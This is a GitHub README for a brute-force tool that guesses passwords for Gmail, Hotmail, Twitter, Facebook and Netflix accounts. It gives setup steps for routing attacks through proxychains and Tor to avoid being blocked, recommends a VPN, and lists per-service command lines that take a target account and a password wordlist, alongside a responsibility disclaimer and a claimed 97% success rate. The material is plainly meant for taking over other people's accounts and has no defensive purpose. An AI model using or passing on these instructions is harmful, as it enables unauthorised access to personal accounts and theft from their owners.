 ![logo](https://user-images.githubusercontent.com/109625649/188266408-3076c034-f8f5-4748-aada-3f5b4b3b3276.png)


# G-Tech Brute Force Tool


### I am NOT taking any responsibility!

# Brute Force for Social Accounts

Hacking toolkit for multible social media accounts. Brute force will give you the correct password almost everytime (97%) if you follow the steps below. Works without proxies well but sometimes it gives a error like this:

```bash 
File "/usr/lib/python3.10/smtplib.py", line 739, in login
    (code, resp) = self.auth(
  File "/usr/lib/python3.10/smtplib.py", line 642, in auth
    (code, resp) = self.docmd("AUTH", mechanism + " " + response)
  File "/usr/lib/python3.10/smtplib.py", line 432, in docmd
    return self.getreply()
  File "/usr/lib/python3.10/smtplib.py", line 405, in getreply
    raise SMTPServerDisconnected("Connection unexpectedly closed")
smtplib.SMTPServerDisconnected: Connection unexpectedly closed
 ```
 # Don't let that happen, lets set proxies.
 --------
 
 ## Setting up the proxy
 
 After clonning the repository in **/root** go to-
 ```bash 
 /root/G-Tech/Proxy/Proxy-List.txt
 ```
 Copy 4-5 proxy and go to terminal/terminal emulator
 
 ```bash 
 nano /etc/proxychains4.conf
 ```
 
 Set the proxies as raw. Then reboot your device and "service tor start", now we are fully ready to start hacking!
 --------
 
 # Starting the Tool
 
 G-Tech doesn't need dependencies pr requirements. All it needs is YOU to brute force.
 go to:
 
 ```bash
 /root/G-Tech
 ```
 Then open a terminal there and write:
 
 ```bash
 python3 G-Tech.py 
 ```
 It bring you a menu, 
 Now nano open all-codes.txt, all the codes are there. now you start brute-forcing;
 
 ## Gmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l wordlist here
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l single password here
 ```
 ## Hotmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l wordlist here
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l single password here
 ```
 
 ## Twitter Brute Forcing
 
 ```bash
  python3 G-Tech.py -T/--twitter accountnamehere -l wordlist here
  python3 G-Tech.py -T/--twitter accountnamehere -l single password here
  ```
  
  ## Facebook Brute Forcing
  
  ```bash
  python3 G-Tech.py -f/--facebook accountnamehere/username -l wordlist here
  python3 G-Tech.py -f/--facebook accountnamehere/username -l single password here
  ```
  
  ## Netflix Brute Forcing
  VPN Recommended (Like ProtonVPN, OpenVPN or NordVPN)
  
  ```bash
  python3 G-Tech.py -n/--netflix accountnamehere -l wordlist here
  python3 G-Tech.py -n/--netflix accountnamehere -l single password here
  ```
  
  
  
  
  
  
  That was all for me, I hope you won't anything illegal, because I am NOT taking any responsibility!
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 
